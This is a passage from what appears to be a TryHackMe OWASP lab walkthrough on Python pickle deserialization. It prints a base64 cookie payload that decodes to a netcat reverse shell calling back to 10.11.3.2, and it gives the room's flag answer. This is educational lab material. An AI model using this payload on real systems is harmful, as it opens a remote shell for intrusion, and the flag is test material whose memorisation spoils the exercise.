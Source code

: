 The Exploit

Now I'm not going to leave you hanging dry here. First, we need to set up a netcat listener on our Kali. If you are a subscriber, you can control your own in-browser TryHackMe Kali Machine.

Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.

Once this is complete, copy-and-paste the source code from this python file (pickelme.py) to your kali and modify the source code to replace your "YOUR_TRYHACKME_VPN_IP" with your TryHackMe VPN IP. This can be obtained via the Access page.


1. Create a python file to paste into, I have used "rce.py" for these examples:


2. Paste the code from the GitHub site, replacing YOUR_TRYHACKME_VPN_IP with your TryHackMe VPN IP from the access page

3. Execute "rce.py" via python3 rce.py

4. Note the output of the command, it will look something similar to this:



5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:

gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=    Yours may look slightly different, just ensure that you copy everything in-between the two speech marks ''


6. Paste this into the "encodedPayload" cookie in your browser:



7. Ensure our netcat listener is still running:

8. Refresh the page. It will hang, refer back to your netcat listener:


If you have performed the steps correctly, you will now have a remote shell to your instance. No privilege escalation involved, look for the flag.txt flag!
Answer the questions below
flag.txt
```
4a69a7ff9fd68
```


#  Task 27 [Severity 9] Components With Known Vulnerabilities - Intro

Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well documented vulnerability.

For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on exploit-db.
